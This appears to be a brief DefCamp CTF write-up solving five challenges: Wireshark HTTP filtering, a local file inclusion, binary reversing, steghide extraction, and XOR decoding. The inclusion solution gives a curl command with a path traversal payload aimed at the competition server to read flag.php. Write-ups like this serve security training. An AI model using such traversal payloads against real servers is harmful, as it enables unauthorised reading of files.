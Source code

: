 # DefCamp CTF


# basic-coms

Filter wireshark for HTTP conversations and the flag is in the URL

# alien-inclusion

Taking into account the code that we see on the page, this would be the way to print the flag

```bash
curl -X POST -d 'start=../../../../../../var/www/html/flag.php' http://35.234.65.24:30627/?start=../../../../../../var/www/html/flag.php
```

# yopass-go

Disassemble using a dissassembler like Ghidra or Cutter. See the address '0x004c55f2', run the program and print this address where the flag string is.

# stug-reference

Extract with password 'stug'
```bash
steghide --extract -sf stug.jpg
```

# why-xor

```python
xored = ['\x00', '\x00', '\x00', '\x18', 'C', '_', '\x05',
 'E', 'V', 'T', 'F', 'U', 'R', 'B', '_', 'U', 'G', '_', 'V', 
 '\x17', 'V', 'S', '@', '\x03', '[', 'C', '\x02', '\x07', 'C',
  'Q', 'S', 'M', '\x02', 'P', 'M', '_', 'S', '\x12', 'V', '\x07',
   'B', 'V', 'Q', '\x15', 'S', 'T', '\x11', '_', '\x05', 'A', 'P', 
   '\x02', '\x17', 'R', 'Q', 'L', '\x04', 'P', 'E', 'W', 'P', 'L', 
   '\x04', '\x07', '\x15', 'T', 'V', 'L', '\x1b']
s1 = xored
s2 = "CTFctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctf"
# ['\x00', '\x00', '\x00'] at start of xored is the best hint you get
a_list = [chr(ord(a) ^ ord(b)) for a,b in zip(s1, s2)]
print(a_list)
print("".join(a_list))
```

Playing around with the program we notice that the flag has to start with "CTF{" and end with "}", meaning the first 4 letters have to be 'CTFc' and the last one has to be 'f', by trying out the key 'CTFctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctfctf', we notice that we get a valid flag.
